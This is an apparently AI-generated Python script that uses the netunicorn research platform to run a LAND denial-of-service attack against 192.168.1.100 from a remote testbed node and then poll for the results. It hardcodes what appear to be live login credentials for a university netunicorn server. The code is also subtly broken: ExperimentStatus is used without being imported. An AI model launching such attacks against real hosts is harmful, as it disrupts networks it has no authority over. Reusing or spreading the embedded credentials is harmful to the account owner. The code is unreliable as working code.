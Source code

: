 ### Generated Code:
```python
import time
from netunicorn.client.remote import RemoteClient
from netunicorn.base.pipeline import Pipeline
from netunicorn.library.tasks.network_attacks.land import LANDAttack
from netunicorn.base.nodes import NodePool

# Credentials
client = RemoteClient("https://pinot.cs.ucsb.edu/netunicorn", "293nmay25", "4Ij9Du65jrqj")

# Client Initialization
client = RemoteClient("https://pinot.cs.ucsb.edu/netunicorn", "293nmay25", "4Ij9Du65jrqj")

# Pipeline Creation
pipeline = Pipeline()
pipeline.then(LANDAttack("192.168.1.100", source_port=1337, destination_port=80))

# Node Selection
nodes = client.get_nodes()
working_nodes = nodes.take(1)

# Experiment Naming
experiment_name = "nl4netunicorn_experiment"

# Delete existing experiment if any
try:
    client.delete_experiment(experiment_name)
except Exception as e:
    print(f"Error deleting experiment {experiment_name}: {e} (possibly non-existent, safe to ignore)")

# Experiment Lifecycle & Results
client.prepare_experiment(pipeline, working_nodes, experiment_name)
client.start_execution(experiment_name)

# Wait for the experiment to complete
while True:
    info = client.get_experiment_status(experiment_name)
    print(info.status)
    if info.status != ExperimentStatus.RUNNING:
        break
    time.sleep(10)

# Retrieve and print results
results = client.get_experiment_status(experiment_name).execution_result
print(f"Experiment results: {results}")
```

---
